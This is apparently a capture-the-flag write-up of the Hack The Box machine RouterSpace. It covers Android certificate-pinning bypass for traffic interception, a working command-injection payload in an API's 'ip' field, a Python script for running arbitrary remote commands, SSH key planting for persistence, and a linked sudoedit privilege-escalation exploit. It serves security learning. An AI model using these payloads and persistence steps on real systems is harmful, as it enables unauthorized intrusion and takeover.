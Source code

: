 ```yaml
---
title: Hackthebox - RouterSpace
date: 2022-05-13 00:00:00 +0530
categories: [hackthebox, linux]
tags: [android, application, apk, dynamic-analysis, sudoedit, ve-2021-3156]     # TAG names should always be lowercase
image: /assets/img/posts/routerspace/routerspace_banner.png
---
```



![](/assets/img/posts/routerspace/routerspace_banner.png)



<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.11.148 routerspace.htb

**nmap scan: TCP/IP**
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-RouterSpace Packet Filtering V1
| ssh-hostkey: 
|   3072 f4:e4:c8:0a:a6:af:66:93:af:69:5a:a9:bc:75:f9:0c (RSA)
|   256 7f:05:cd:8c:42:7b:a9:4a:b2:e6:35:2c:c4:59:78:02 (ECDSA)
|_  256 2f:d7:a8:8b:be:2d:10:b0:c9:b4:29:52:a8:94:24:78 (ED25519)
80/tcp open  http
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 200 OK
|     X-Powered-By: RouterSpace
|     X-Cdn: RouterSpace-285
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 64
|     ETag: W/"40-IsjmuQeSoXp5nkQG8W0b7AT2rqg"
|     Date: Fri, 13 May 2022 01:39:18 GMT
|     Connection: close
|     Suspicious activity detected !!! {RequestID: 3 A ob6Q }
|   GetRequest: 
|     HTTP/1.1 200 OK
|     X-Powered-By: RouterSpace
|     X-Cdn: RouterSpace-68559
|     Accept-Ranges: bytes
|     Cache-Control: public, max-age=0
|     Last-Modified: Mon, 22 Nov 2021 11:33:57 GMT
|     ETag: W/"652c-17d476c9285"
|     Content-Type: text/html; charset=UTF-8
|     Content-Length: 25900
|     Date: Fri, 13 May 2022 01:39:15 GMT
|     Connection: close
|     <!doctype html>
|     <html class="no-js" lang="zxx">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>RouterSpace</title>
|     <meta name="description" content="">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="stylesheet" href="css/bootstrap.min.css">
|     <link rel="stylesheet" href="css/owl.carousel.min.css">
|     <link rel="stylesheet" href="css/magnific-popup.css">
|     <link rel="stylesheet" href="css/font-awesome.min.css">
|     <link rel="stylesheet" href="css/themify-icons.css">
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     X-Powered-By: RouterSpace
|     X-Cdn: RouterSpace-23456
|     Allow: GET,HEAD,POST
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 13
|     ETag: W/"d-bMedpZYGrVt1nR4x+qdNZ2GqyRo"
|     Date: Fri, 13 May 2022 01:39:16 GMT
|     Connection: close
|     GET,HEAD,POST
|   RTSPRequest, X11Probe: 
|     HTTP/1.1 400 Bad Request
|_    Connection: close
|_http-title: RouterSpace
|_http-trane-info: Problem with XML parsing of /evox/about
2 services unrecognized despite returning data.
```


Nothing interesting on home page, except a download link for an android application.

<div style="max-height: 500px; overflow: hidden; position: relative; margin-bottom: 20px;">
  <a href="/assets/img/posts/routerspace/http-10.10.11.148-index.html.png">
    <img src="/assets/img/posts/routerspace/http-10.10.11.148-index.html.png" style="clip-path: polygon(0 0, 100% 0, 100% 460px, 49% 490px, 51% 470px, 0 500px); -webkit-clip-path: polygon(0 0, 100% 0, 100% 460px, 49% 490px, 51% 470px, 0 500px)" alt="image-20220608173116399">
  </a>
  <div style="position: absolute; right: 20px; top: 475px"><a href="/assets/img/posts/routerspace/http-10.10.11.148-index.html.png"><i>Click for full image</i></a></div>
</div>

Also don't find anything interesting from decompiling apk.

# Foothold 

## Android app dynamic analysis

Running apk in android emulator [genymotion](https://www.genymotion.com/).

![](/assets/img/posts/routerspace/app-network-error.png)

For Running and Intercepting application traffic we need to do some configurations.

1. Install genymotion and virtualbox and other required libraries.
   * Download: https://www.genymotion.com/download/
   * Install: https://docs.genymotion.com/desktop/Get_started/013_Linux_install/
   * If you get Error: "An error has occurred while trying to create a VirtualBox host-only network interface." Run this: `sudo apt-get --reinstall install virtualbox-dkms`

2. Add new virtual device with Android API version less than or equal to Android 8.1 OR API 27.
   * I use "NAT" network mode for virtualbox network interface.

3. Install xposedinstaller and JustTrustMe, and enable "JustTrustMe" from xposed modules.

   ![](/assets/img/posts/routerspace/xposed-justtrustme.png)

4. Install burp CA certificate as root.
5. Put burp proxy address in your android VM using adb shell.

* There are some changes in Android CA policies since Android N (Android version 7.0 to 7.1) which makes it hard to intercept application traffic because of the [certificate pinning](https://owasp.org/www-community/controls/Certificate_and_Public_Key_Pinning).
* RECOMMENDED version is 4.4 but application doesn't support old android API. if you want to use newer version then it must **NOT** greater then 8.1 because there a xposed module ([JustTrustMe](https://github.com/Fuzion24/JustTrustMe)) available to bypass certificate pinning up to Android API 27 - https://forum.xda-developers.com/t/official-xposed-for-lollipop-marshmallow-nougat-oreo-v90-beta3-2018-01-29.3034811/
  * xposedinstaller - https://forum.xda-developers.com/attachments/xposedinstaller_3-1-5-apk.4393082/
  * JustTrustMe - https://github.com/Fuzion24/JustTrustMe/releases/download/v.2/JustTrustMe.apk

And for intercepting application traffic in newer android we need to install burp CA certificate as root - https://blog.ropnop.com/configuring-burp-suite-with-android-nougat/ 
```bash
# Convert DER to PEM
openssl x509 -inform DER -in cacert.der -out cacert.pem

# Get subject_hash_old (or subject_hash if OpenSSL < 1.0)
openssl x509 -inform PEM -subject_hash_old -in cacert.pem |head -1

# Rename cacert.pem to <hash>.0
mv cacert.pem 9a5ba575.0

# Remount and copy cert to device
adb root
adb remount
adb push 9a5ba575.0 /sdcard/
adb shell
vbox86p:/ # mv /sdcard/9a5ba575.0 /system/etc/security/cacerts/
vbox86p:/ # chmod 644 /system/etc/security/cacerts/9a5ba575.0
vbox86p:/ # exit
adb reboot
```

![](/assets/img/posts/routerspace/adb-install-cert.png)

And, for routing traffic through Burpsuite, add burp proxy using adb shell
```bash
adb shell settings put global http_proxy localhost:3333
adb reverse tcp:3333 tcp:8080

# for removing proxy from android
adb shell settings put global http_proxy :0
```

And finally proxy setup completed successfully, now we can intercept application traffic.

![](/assets/img/posts/routerspace/app-status-request.png)

* Got a hostname: `routerspace.htb`, add in `/etc/hosts` file.

And that "`ip`" parameter is vulnerable for command injection
```bash
curl -s -X POST \
    -H 'user-agent: RouterSpaceAgent' -H 'Content-Type: application/json' -H 'Host: routerspace.htb' \
    --data-binary $'{\"ip\":\";id\"}' \
    $'http://10.10.11.148/api/v4/monitoring/router/dev/check/deviceAccess'
```

![](/assets/img/posts/routerspace/command-injection.png)

But reverse shell is not working, Maybe we have to enumerate file system from here.

Here's simple python script for that.
```py
import requests as r
import sys

cmd = sys.argv[1]
headers = {'user-agent': 'RouterSpaceAgent', 'Content-Type': 'application/json', 'Host': 'routerspace.htb'}
url = 'http://10.10.11.148/api/v4/monitoring/router/dev/check/deviceAccess' 
data = {"ip":f";{cmd}"}
req = r.post(url=url, json=data, headers=headers)
print(req.text.encode('utf-8').decode('unicode_escape'))
```

Don't find private ssh key but we have write access so we could add our public key inside `/home/paul/.ssh/authorized_keys`
* use `ssh-keygen` to generate ssh key pair
```bash
python exploit.py 'echo "<ssh_public_key>" > /home/paul/.ssh/authorized_keys'
```

And successfully get ssh shell as user "paul".

# Privesc

## Sudoedit Exploit

There are some IPtable rules which blocking any unwanted incoming or outgoing traffic which blocks our reverse shell.

Easiest way to put linpeas.sh script in the box is using `scp` command.
```bash 
scp -i paul linpeas.sh paul@10.10.11.148:/tmp
```

Linpeas "Linux Exploit Suggester" check found that box is vulnerable for [sudoedit](https://github.com/worawit/CVE-2021-3156) exploit.

* Here is working exploit version - https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py

![](/assets/img/posts/routerspace/routerspace-rooted.png)
